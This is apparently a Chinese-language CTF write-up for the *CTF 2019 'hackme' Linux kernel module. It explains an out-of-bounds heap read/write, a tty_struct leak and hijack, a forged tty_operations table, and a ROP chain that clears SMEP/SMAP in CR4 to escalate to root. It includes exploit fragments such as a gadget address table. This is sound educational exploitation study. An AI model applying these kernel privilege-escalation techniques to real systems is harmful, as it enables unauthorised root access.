 ```yaml
---
layout: post
title: startctf2019 hackme Write-up
date: 2021-09-13
Author: LJP-TW
tags: [CTF]
comments: true
toc: true
excerpt_separator: <!--more-->
---
```


# 前言

練習了一下如何 bypass SMEP，這題的漏洞很好利用，很適合拿來練習利用手段。
<!--more-->

# 題目介紹
這題主要是要打一個有問題的 kernel module，此 kernel module 用 `misc_register()` 註冊了簡易的 device，其路徑為 `/dev/hackme`。

保護機制有開 SMAP、SMEP。
* SMEP (Supervisor Mode Execution Prevention):
    * 禁止執行 user-space code
    * 暫存器 CR4 第 20 bit
* SMAP (Supervisor Mode Access Prevention)
    * 禁止讀寫 user-space memory
    * 暫存器 CR4 第 21 bit

這題打法是利用 heap 超出範圍讀寫，分配出 `tty_struct` 結構 leak 出 kernel 位址，並且控制執行流，將 ROP chain 放在 kernel-space 裡，利用大意為 `push rax; pop rsp;` 的 gadget 進行 stack migration，跳完 ROP 後提權。

另外還想試試看其他 exploit 的方式可不可行
* 直接改 cred 的內容
* 改 modprobe_path
* 只利用 race condition 漏洞來打這題

求大神帶一下 <(_ _)>

# Reverse
* 就四個功能淺顯易懂
* 釋放
![image-20210913210929304](https://raw.githubusercontent.com/LJP-TW/blog/master/images/post/2021-09-13-startctf2019-hackme/image-20210913210929304.png)

* 寫入
![image-20210913211019861](https://raw.githubusercontent.com/LJP-TW/blog/master/images/post/2021-09-13-startctf2019-hackme/image-20210913211019861.png)

* 讀出
![image-20210913211103338](https://raw.githubusercontent.com/LJP-TW/blog/master/images/post/2021-09-13-startctf2019-hackme/image-20210913211103338.png)

* 創造
![image-20210913211137231](https://raw.githubusercontent.com/LJP-TW/blog/master/images/post/2021-09-13-startctf2019-hackme/image-20210913211137231.png)

# Vulnerability
* 所有功能都沒有考慮 race condition 的問題
* 讀寫功能 offset 可以是負的，size 設定成讓其符合條件的數值即可，如此就能超出範圍讀寫

# Exploit
* [完整 exploit 連結](https://github.com/LJP-TW/CTF/blob/master/startctf2019/hackme/exploit.c)
* 後面零碎的解釋 exploit

```c
#define PAUSE do { scanf("%*c"); } while(0);
```
* 方便卡住一下 exploit，然後能用 gdb 連進去 debug

```c
// Gadget that needs to adjust
#define KERNEL_TEXT 0
#define POP_RCX 1
#define MOV_RDI_RAX_CALL_RCX_POP_RBP 2
#define RET 3
#define PUSH_RAX_POP_RSP_POP_RBP 4
#define POP_RDI 5
#define COMMIT_CREDS 6
#define PREPARE_KERNEL_CRED 7
#define SWAPGS_POPFQ_POP_RBP 8
#define IRETQ 9
#define POP_RBP 10
#define MOV_CR4_RAX_PUSH_RCX_POPFQ_POP_RBP 11
#define POP_RAX 12
#define POP_R12_R15 13

ULL gadgets[] = {
    0xffffffff81000000,
    0xffffffff81633ad8,
    0xffffffff810a1f77,
    0xffffffff810001cc,
    0xffffffff8116b3c5,
    0xffffffff81033de0,
    0xffffffff8104d220,
    0xffffffff8104d3d0,
    0xffffffff81200c2e,
    0xffffffff81019356,
    0xffffffff810003af,
    0xffffffff8100252b,
    0xffffffff8101b5a1,
    0xffffffff81033ddd,
};

...

    for (int i = 1; i < sizeof(gadgets) / sizeof(ULL); ++i) {
        gadgets[i] = gadgets[i] - gadgets[0] + (ULL)kernel_text;
    }
```
* 因為 gadget 真正的位址需要調整，個人覺得這樣寫還蠻好看的就這樣寫了
* 由於 tty_struct 大小為 0x2e0，其所屬的 slab object 大小為 0x400，所以可以看到 exploit 中分配的大小直接都是 0x400
* 簡單來說，先後分配了 A、B object 後，將 A 釋放，通過對 B 超出讀能夠讀到 A 的內容，如此能 leak 出 slab address
    * 這個 address 為下一塊 free object 的位址，若此頁是全新的一頁，那麼此位址會是緊貼於 B 的下一塊 object 位址，也就是說此 address - 0x400 為 B 的位址
* 再次分配 tty_struct，此時其會分配到 A，通過對 B 超出讀能夠讀到 A 的內容，如此能 leak 出 kernel pointer
* 通過對 B 超出寫能夠改掉 tty_struct

```c
struct tty_struct {
	int	magic;
	struct kref kref;
	struct device *dev;	/* class device or NULL (e.g. ptys, serdev) */
	struct tty_driver *driver;
	const struct tty_operations *ops;
	int index;
    ...
```
* offset 0x18 為 ops，改成指向 B
* 接著在 B 偽造假的 `struct tty_operations`

```c
struct tty_operations {
	struct tty_struct * (*lookup)(struct tty_driver *driver,
			struct file *filp, int idx);
	int  (*install)(struct tty_driver *driver, struct tty_struct *tty);
	void (*remove)(struct tty_driver *driver, struct tty_struct *tty);
	int  (*open)(struct tty_struct * tty, struct file * filp);
	void (*close)(struct tty_struct * tty, struct file * filp);
	void (*shutdown)(struct tty_struct *tty);
	void (*cleanup)(struct tty_struct *tty);
	int  (*write)(struct tty_struct * tty,
		      const unsigned char *buf, int count);
	int  (*put_char)(struct tty_struct *tty, unsigned char ch);
    ...
```
* 偽造 write function pointer 為效果為 `push rax; pop rsp;` 的 gadget
* 後續就是 ROP
    * 把 CR4 中的 SMEP、SMAP 欄位關掉
    * 如此就能直接在 user-space 執行 `commit_creds(prepare_kernel_cred(0));`
    * 其實到目前為止，後續的 swapgs、iretq 都沒有一定要用 ROP 的方式去做了，就直接執行就好

# Reference
* [linux kernel pwn学习之堆漏洞利用+bypass smap、smep](https://blog.csdn.net/seaaseesa/article/details/104591448)
* [sixstars/starctf2019](https://github.com/sixstars/starctf2019/tree/master/pwn-hackme)
